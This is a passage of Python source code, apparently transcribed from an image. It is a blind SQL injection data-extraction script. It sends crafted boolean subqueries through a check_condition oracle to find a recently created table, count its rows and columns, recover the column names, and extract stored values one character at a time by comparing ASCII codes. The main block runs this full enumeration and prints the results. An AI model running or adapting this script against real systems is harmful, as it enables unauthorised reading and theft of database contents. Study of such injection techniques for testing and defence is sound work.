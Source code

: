 ```python
                column_name += char
                break
    return column_name

def count_rows_in(table_name):
    for x in range(1, 100):
        if check_condition("select CONVERT((select count(*) from {}), DECIMAL)='{}'".format(table_name, x)):
            return x
    return None

def get_length_of_value(table_name, column_name, row_index):
     for x in range(1, 100):
        if check_condition("select length((select {} from {} order by {} asc limit {},1))='{}'".format(column_name, table_name, column_name, row_index, x)):
            return x
            

def get_table_row_from_column(table_name, row_index, column):
    value = ""
    value_length = get_length_of_value(table_name, column, row_index)
    print("Column: {}, in table: {} with row_index {} is {} char(s) long".format(column, table_name, row_index, value_length))
    for x in range(1, value_length+1):
        for char in bf_list:
            if check_condition("select ascii(substring((select {} from {} limit {},1), {}, 1))='{}'".format(column, table_name, row_index, x, ord(char))):
                value += char
                break
    return value


if __name__ == "__main__":
    initiate_session()
    table_name = get_lastest_created_table_name(get_length_of_table_name(0))
    print("Found table {}. Fetching number of columns...".format(table_name))
    rows_in_table = count_rows_in(table_name)
    print("Table: {} contains {} row(s)".format(table_name, rows_in_table))
    number_of_columns = get_number_of_columns_from_table(table_name)
    print("Table: {} contains {} column(s). Fetching column names..".format(table_name, number_of_columns))
    

    columns = []
    for x in range(0, number_of_columns):
        column_name = get_column_name(table_name, x)
        print("Found column: {} in table {}. Fetching content".format(column_name, table_name))
        column_value = get_table_row_from_column(table_name, 0, column_name)
        print("Column: {} in table: {} has value: {}".format(column_name, table_name, column_value))

```
